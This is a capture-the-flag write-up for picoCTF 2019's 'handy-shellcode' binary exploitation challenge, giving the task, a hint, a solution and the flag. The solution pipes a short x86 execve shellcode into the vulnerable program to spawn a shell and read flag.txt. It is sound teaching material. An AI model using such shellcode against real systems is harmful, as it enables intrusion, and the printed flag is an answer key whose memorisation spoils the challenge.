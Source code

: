 # handy-shellcode

Point: 50

## Category

Binary Exploitation

## Question

This [program](https://2019shell1.picoctf.com/static/f5f38a3523dffd5f487719d1f35815a0/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode\_1\_ebc60746fee43ae25c405fc75a234ef5 on the shell server. [Source](https://2019shell1.picoctf.com/static/f5f38a3523dffd5f487719d1f35815a0/vuln.c).

## Hint

You might be able to find some good shellcode online.

## Solution

```bash
echo -e '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' > ~/asdf 
cat ~/asdf - | ./vuln
```

## Flag

picoCTF{h4ndY\_d4ndY\_sh311c0d3\_2cb0ff39}

